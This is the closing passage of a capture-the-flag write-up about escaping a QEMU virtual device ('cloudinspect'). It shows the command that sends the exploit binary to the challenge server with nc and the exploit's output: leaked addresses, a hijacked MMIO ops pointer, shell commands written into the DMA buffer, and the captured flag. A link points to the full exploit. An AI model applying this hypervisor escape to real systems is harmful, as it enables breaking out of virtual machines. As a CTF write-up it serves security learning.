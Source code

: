 Combining all the pieces, we are able to execute our gameplan above. You can find our full exploit [here](https://gist.github.com/00xc/1eeb927dbfb612eff9f261d3b8926e0a).

```
$ { stat -c "%s" solve; sleep 1; cat solve; } | nc flu.xxx 20065
...
magic=c10dc10dc10dc10d
leak: 0x55f73a523510
cloudstate @ 0x55f73c312380
cloudstate->dma_buf @ 0x55f73c312d88
old ops->read: 0x55f73a221480
new ops->read: 0x55f73a1a7d60
> Writing fake_ops to dma_buf
> Writing shell to dma_buf
> Reading mmio
old mmio->ops: 0x55f73ab86f20
old mmio->opaque: 0x55f73c312380
new mmio->ops: 0x55f73c312d88
new mmio->opaque: 0x55f73c312dd8
> Writing fake mmio
> Triggering mmio read
flag{cloudinspect_inspects_your_cloud_0107}
```

